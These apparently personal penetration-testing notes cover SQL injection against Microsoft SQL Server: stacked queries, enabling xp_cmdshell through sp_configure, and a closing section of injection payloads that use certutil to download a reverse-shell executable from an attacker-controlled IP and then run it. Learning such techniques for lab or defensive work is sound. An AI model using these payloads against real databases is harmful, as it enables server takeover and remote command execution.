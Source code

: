 not available in all systems

`' ; new query here; --`

# Stored procedures and functions

Procedures and functions within a  database  management system.

MSSQL has **xp_cmdshell** that might be used to execute os calls to get rce (remote code execution). (By using EXECUTE  / EXEC to run windows shell commands!!)

Disabled by default! Still common irl. New secure replacement fir example SSIS (SQL Server Integration Services).
Even when disabled, it can be enabled with an EXEC query if the user has the 'sysadmin' role or have the 'alter settings' server level permission.
`'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --`

# Upload and execute exploit/rev shell

`'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.18.21.236:8000/win64-reverse.exe C:\Windows\Temp\reverse.exe'; --`
`'; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --`

 \
